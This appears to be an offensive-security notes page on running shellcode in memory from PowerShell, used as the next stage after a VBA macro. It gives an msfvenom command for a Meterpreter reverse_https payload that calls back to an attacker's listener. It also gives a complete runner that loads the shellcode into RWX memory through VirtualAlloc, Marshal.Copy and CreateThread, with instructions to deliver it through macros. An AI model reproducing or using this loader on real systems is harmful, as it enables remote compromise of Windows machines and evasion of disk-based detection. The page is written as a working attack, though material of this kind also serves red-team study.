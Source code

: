 - The methodology is same as the one in VBA: Allocate memory > Copy shellcode to memory > Execute shellcode
- We will be using Win32 API _VirtualAlloc_ and _CreateThread_, but for copying the shellcode we will use .Net Copy method function from the _System.Runtime.InteropServices.Marshal_
- We will also use the _WaitForSingleObject_ function from the _kernel32.dll_ to prevent the shell from dying.

MSFVENOM Payload :

    msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port> EXITFUNC=thread -f ps1

&nbsp;

Powershell code :

    $Kernel32 = @"
        using System;
        using System.Runtime.InteropServices;
        public class Kernel32 {
            [DllImport("kernel32")]
            public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [DllImport("kernel32", CharSet=CharSet.Ansi)]
            public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll", SetLastError=true)]
            public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
        }
    "@
    Add-Type $Kernel32

    [Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...
    $size = $buf.Length
    [IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
    $thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

    [Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")

&nbsp;

Now just download this powershell script using Macros and execute it

&nbsp;

Explanation:

1. A variable called Kernel32 has the C# code.
2. In the C# code, _System_ and _System.Runtime.InteropServices_ is imported. The Win32 APIs for _VirtualAlloc_ , _CreateThread_ and _WaitForSingleObject_ is imported using it's following P/Invoke Statements.
3. The Kernel32 powershell variable is then compiled and imported to the current session using the Add-Type command.
4. The $buf variable stored the generated payload
5. $size variable stores the length of the buffer
6. _VirtualAlloc_ is then called to allocate space of size $size with 0x3000 (MEM_COMMIT and MEM_RESERVE) and 0x40 (read, write and execute)
7. The .Net Copy function is then used to copy the shellcode to the allocated memory.
8. A thread is created using the _CreateThread_ and is executed at the address where the allocation is done.
9. The _WaitForSingleObject_ is called with the arguments $thandle which specifies the created thread and the time (0xFFFFFFFF), which specifies that the thread never quit unless we exit our shell.

